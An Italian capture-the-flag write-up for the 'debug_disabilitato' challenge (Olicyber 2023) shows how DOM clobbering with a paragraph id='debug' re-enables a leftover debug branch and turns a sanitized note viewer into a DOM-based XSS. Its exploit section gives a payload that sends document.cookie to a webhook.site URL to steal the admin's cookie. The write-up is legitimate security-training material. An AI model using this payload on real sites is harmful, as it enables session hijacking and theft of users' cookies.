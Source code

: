 # debug_disabilitato

Olicyber - Selezioni territoriali 2023


# Premesse
La challenge non condivide il codice sorgente del backend, di conseguenza sarà necessaria un'attenta osservazione del client, inoltre nell'introduzione ci viene detto che la flag si trova nel cookie dell'admin.

## Analisi
La struttura del sito è semplice: permette di registrarsi, fare il login, aggiungere una nota, vedere le proprie note e reportare una nota all'admin (xss?).
### pagina Show note
in questa pagina, in particolare nello script si vede come viene visualizzata la nota richiesta:
```javascript
window.addEventListener("load", () => {
        let note_id = location.pathname.split('/').at(-1);

        fetch(`/api/note/${note_id}`)
            .then((r) => {
                r.json()
                    .then((data) => {
                        let content = sanitize(data.content);

                        note_title.innerText = `Note ${data.title} : ${note_id}`;
                        note_content.innerHTML = content;

                        // Debug disattivato, da cancellare appena il boss mi da il permesso
                        if (window.debug) {
                            document.write(`<p class='py-6 font-normal text-lg text-zinc-700'>Note title: ${data.title}</p>`);
                            document.write(`<p class='py-6 font-normal text-lg text-zinc-700'>Note content: ${data.content}</p>`);
                        }

                    })
                    .catch((e) => {
                        console.log("INTERNO: ", e);
                        display_404();
                    })
            })
            .catch(() => {
                display_404();
            })
    });
```
funzione sanitize:
```javascript
const sanitize = (data) => {
        return DOMPurify.sanitize(data, {
            ALLOWED_TAGS: ['strong', 'em', 'b', 'img', 'a', 's', 'ul', 'ol', 'li', 'p']
        });

    }
```
inoltre è presente anche un commento / indizio:
```html
<script>
    // window.debug = true;
</script>
```
Il contenuto della nota viene quindi sanitizzato client side per evitare xss.
Per poter fare una xss dobbiamo riattivare il debug, o almeno fare in modo che la condizione window.debug == true sia verificata, e per farlo possiamo sfruttare i tag permessi dalla funzione sanitize.

## Soluzione

Se nel contenuto della nota inseriamo un tag allowed, per esempio un paragraph, e gli diamo un id, allora l'oggetto con lo stesso nome dell'id diventa child di window, di conseguenza se mandiamo un paragraph con id="debug":
```html
<p id="debug"></p>
<script>
alert("xss!")
</script>
```
Il nostro script che veniva prima bloccato dalla funzione sanitize viene inserito nella pagina e viene eseguito perchè la condizione window.debug viene soddisfatta!

A questo punto basterà fare una richiesta ad un nostro webhook e reportare la nota per ottenere il cookie dell'admin.

## Exploit
Nome vulnerabilità: DOM based XSS

```html
<p id="debug"></p>
<script>
fetch("https://webhook.site/your-webhook" + "/" + document.cookie)
</script>
```

Inserendo questo script nel contenuto di una nota e reportandola all'admin otteniamo la flag contenuta nel cookie.

